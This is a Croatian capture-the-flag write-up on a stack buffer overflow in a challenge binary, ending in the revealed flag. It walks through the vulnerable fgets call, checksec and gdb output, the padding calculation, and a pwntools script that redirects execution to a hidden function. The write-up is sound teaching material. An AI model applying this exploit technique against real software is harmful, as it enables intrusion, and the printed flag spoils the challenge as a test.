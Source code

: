 # Writeup

## Otkrivanje ranjivosti
Detaljnom analizom izvornog koda programa, uočena je potencijalna ranjivost programa **stack buffer overflow** kod promijene zone.

```
void promijeniZonu(){
	char priv[4];
	printf("Unesi novu zonu (3 znaka):\n");
	fgets(priv,44,stdin);
	strcpy(trenutnaZona,priv);
	printf("Zona promijenjena!\n");
}
```

U programu se za unos nove zone rezervira polje veličine 4 bajta, a pomoću funkcije fgets se na rezervirano polje zapisuje maksimalno 44 bajta.

Pomoću programa ```checksec``` mogu se provjeriti zaštite kompajliranog programa.

```
└─$ checksec --file=poruka    
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   2258 Symbols      No    0               0               poruka
```

Iz rezultata postojećih zaštita se može vidjeti da kompajlirani program ne sadrži PIE zaštitu.

## Objašnjenje ranjivosti

Kad je PIE omoguće, sustav koristi tehnologiju poput ASLR (Address Space Layout Randomization) za nasumično raspoređivanje adresa programa (npr. adrese funkcija, varijabla, stog...).
Na taj način, čak i ako napadač uspije izvršiti napade, neće moći predvidjeti gdje će se funkcije ili kritični podaci nalaziti u memoriji.
Zbog toga što program ne sadrži PIE, može se preurediti povratna adresa funkcije promijeniZonu na bilo koji drugu adresu.
To je moguće zbog toga što program pomoću fgets upisuje podatke izvan buffera.
U ovom slučaju želimo program preusmjeriti na adresu funkcije ispisiTajnuPoruku.
Potrebno je odrediti koji dio korisničkog unosa preuređuje povratnu adresu funkcije.
Za to se može koristiti program ```gdb``` u kombinaciji s ```pwndbg```.

Prvo treba pogledati na kojoj adresi se nalazi buffer:

```
─────────[ DISASM / x86-64 / set emulate on ]────────── 
 ► 0x401a2a <promijeniZonu+42> call fgets <fgets>
        s: 0x7fffffffddac <-- 0xffffddd000000000
		n: 0x2c
        stream: 0x4c45c0 (_IO_2_1_stdin_) <-- 0xfbad2288
```

Adresa gdje se nalazi naš buffer je ```0x7fffffffddac```.
Veličina buffera je ```0x2c```  (decimalno je to 44).

Zatim treba pogledati gdje se na stogu nalazi povratna adresa funkcije promijeniZonu:
```
────────[ STACK ]─────────
00:0000│ rsp         0x7fffffffdda0 —▸ 0x7fffffffddb0 —▸ 0x7fffffffddd0 ◂— 1
01:0008│ rax-4 rdi-4 0x7fffffffdda8 —▸ 0x401d45 (ocistiUlazniBuffer+10) ◂— cmp eax, 0xa
02:0010│ rbp         0x7fffffffddb0 —▸ 0x7fffffffddd0 ◂— 1
03:0018│+008         0x7fffffffddb8 —▸ 0x402172 (main+302) ◂— jmp main+320
```

Povratna adresa funkcije se uvijek nalazi ispod rbp. U ovom slučaju, povratna adresa funkcije promijeniZonu se nalazi na ```0x7fffffffddb8```.

Da bi se izračunao potreban padding (udaljenost korisničkog unosa), potrebno je oduzeti adresu mjesta povratne adrese funkcije i adresu na kojoj se nalazi buffer.

```ddb8 - ddac = C = 12```

Izračunati padding je 12 bajtova. 
Sada je potrebno nakon 12 bajtova korisničkog unosa unijeti adresu funkcije ispisiTajnuPoruku.


## Iskorištenje ranjivosti


Za izradu rješenja može se napraviti Python skripta koja iskorištava stack buffer overflow ranjivost u zadatku.
Skripta koristi ```pwntools``` biblioteku za interakciju s kompajliranim programom, omogućujući slanje podataka i primanje odgovora od procesa pokrenutog programa. 
Nakon pokretanja programa, skripta odabire opciju promijene zone (3) i zatim za novu zonu unosi korisnički unos koji preusmjerava izvođenje programa na adresu funkcije ispisiTajnuPoruku.


```
from pwn import *

io = process("./poruka")
elf = ELF("./poruka")

# = = = START

print(io.recvuntil(b"Odabir:"))
io.sendline(b"3")

print(io.recvuntil(b"Unesi novu zonu (3 znaka):"))

payload = b""
padding = b"A" * 12
ispisiTajnuPoruku = p64(elf.sym["ispisiTajnuPoruku"])
#elf.sym["naziv"] = funkcije i varijable se zovu simboli, to uzme adresu tog simbola kao
#p64() = pakiraj ova 64 bita u format koji će naš kompjuter moći pročitati (jer on koristi little endian)

payload = padding + ispisiTajnuPoruku

# = = = END
io.sendline(payload)
print(payload)

io.interactive()

```


Pokretanjem ove skripte, ispiše se flag ```CTFFOI[TYP0_Ov3rFl0w]```


